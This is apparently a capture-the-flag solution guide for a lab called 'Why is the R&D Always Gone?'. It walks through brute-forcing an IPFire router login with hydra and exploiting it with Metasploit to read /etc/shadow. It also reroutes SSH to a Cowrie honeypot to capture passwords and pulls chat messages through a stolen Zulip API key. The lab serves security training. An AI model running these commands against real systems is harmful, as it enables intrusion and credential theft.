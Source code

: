 # Why is the R&D Always Gone?

_Solution Guide_

## Overview

This solution guide covers the walk-through and is organized by submission question.

Exploit the router (172.21.3.1) and manipulate it to gain access to the production network. Gain access to the filesystem and chat messages. Cowrie has been downloaded to your Kali system; however, minor configurations may be required.

- **Question 1:** Exploit the router; gain access to its underlying OS; alter the router to access the internal production subnet.
- **Question 2:** Gain access to the filesystem by capturing and using SSH credentials. 
- **Question 3:** Read the chat messages on the chat server.

## Question 1

_Gain access to the router's underlying OS. What username, besides root, is on this OS?_

Exploit the router, gain access to its underlying OS, and alter the router to gain access to the internal production subnet.

1. Log in to Kali and scan the router for top 1000 TCP ports.
```
sudo nmap -A 172.21.3.1
```

​	Only TCP/444 is open. Nmap states Apache httpd is running on this port. The SSL-cert shows ipfire (a router OS).

2. The lab doc states that standard usernames are used. Ensure you can see /media/cdrom0/wordlist.txt on the ISO. Feel free to copy it to a better working directory. Anyway, a Google search shows 'admin' is the default username for ipfire. Crack these login creds with hydra with the following command, or use xhydra to help build the syntax.

```
hydra -s 444 -S -v -V -l admin -P /media/cdrom0/wordlist.txt -t 16 -m /cgi-bin/index.cgi 172.21.3.1 https-get
```

3. You found the credentials! As a side note, all credentials used are next to each other (to ensure fair timing across all challenges). Ensure your username and password are correct by logging into https://172.21.3.1:444 with those creds.

You now can alter the router/firewall! We will get to that in a moment. We must use this    username and password to exploit ipfire and gain access to the OS, instead of just the WUI.

4. Launch msfconsole. Run `search ipfire` and enter `use 0` (if exploit/linux/http/ipfire_pakfire_exec). This exploit matches our version number visible on the WUI.

5. Run `show options`, `set password <passwordfoundpreviously>`, `set rhosts 172.21.3.1`, `set lhost <ip of Kali>`, `run`. This should give you a Meterpreter shell.

6. On the meterpreter shell, run `cat /etc/shadow` to view the user, besides root, that has a password set. 

This concludes Question 1. Congrats!

## Question 2 

_A username periodically logs into the SSH file system. What is this user's password?_

Gain access to the file server by capturing and using SSH credentials.

1. As stated in the lab doc, cowrie has been installed on Kali and minor configuration changes may be required. Run `cd ~/Desktop/cowrie`.

2. Run `bin/cowrie start`. Notice the "line 121: exec: twistd: not found" error? A quick Google search will show how to solve this on Kali. https://askubuntu.com/questions/1415462/bin-cowrie-line-121-exec-twistd-not-found.

3. As answered by yours truly... Open the bin/cowrie file with your favorite text editor, navigate to line 121 (as indicated by your error message), change twistd to twistd3, re-run bin/cowrie start.

4. You should now be able to fire it off and only receive a few messages about cryptography depcreations as it runs cowrie in the background. Run `sudo ss -antp` to verify TCP/2222 is now open and being used by twistd3.

5. As stated by the cowrie docs found online, we must set a firewall rule to forward TCP/22 to TCP/2222. Run `sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222`.

6. We now have cowrie listening on TCP/2222 and all TCP/22 are being redirected to cowrie. We must now force the ipfire router to send all SSH packets that were intended for the filesystem (via SSH) to our Kali. Log in to ipfire via https://172.21.3.1:444 with the credentials found previously.

7. Click 'Status' > 'Connections' to find that 172.21.57.139 is the IP address of the fileserver (via SSH) as it is the only non-router IP with destination port 22.

8. Click 'Network' > 'Static Routes'. Add Host IP Address as 172.21.57.139/32, Gateway as *IPv4 of kali*, and click 'Add'.

9. All SSH packets destined for the fileserver should now be redirected to our cowrie. On Kali, run `tail -f ~/Desktop/cowrie/var/log/cowrie/cowrie.log`.

Within 1 minute, if everything is setup correctly, you should see an SSH attempt with a username and password. For example, you may see the first line that states 'login attempt' with a username and password such as b'gilberto'/b'191d2363fa87'.

11. Click 'Network' > 'Static Routes'. Remove the static route on ipfire that you previously created.

12. Click 'Firewall' > 'Firewall Rules'. Change the #2 rule in "Firewall Rules" to Destination Standard Networks: Any and change Reject to ACCEPT. Click 'Update' and 'Apply changes'.

13. Verify the credentials found in Step #10 work. On Kali, run `ssh <username>@172.21.57.139` and enter the password found. Keep this SSH connection open for the next task.

This completes Question 2.

## Question 3

_Gain access to the chat server messages. What temperature must the vaccine be stored at?_

Read the chat messages on the chat server.

1. Scan the 172.21.57.0/24 network. Run `sudo nmap 172.21.57.0/24` to identify the host 172.21.57.100 is running TCP/80 and TCP/443.

2. Run `sudo nmap -A 172.21.57.100`. Notice this chat server is a Zulip server (as indicated by the http-title and other values).

3. Back on your previous SSH connection to the filesystem, run `find / -name "*zulip*"`. You will find a file called /etc/api/zulip.keys.

4. Run `cat /etc/api/zulip.keys`. Copy this information to a file locally to use, if you'd like.

5. Using this api documentation as a reference (), run the command `for i in {1..999}; do curl -ksSX GET -G https://172.21.57.100/api/v1/messages/$i -u backup-bot@172.21.57.100:<APIKEYGOESHERE> --data-urlencode apply_markdown=false; done`, to fetch single messages based on ID (as indicated by the zulip.keys file). 

6. Read messages 35-39. You will find the temperature (E.g., 43.2) needed for the vaccine.

This completes Question 3.
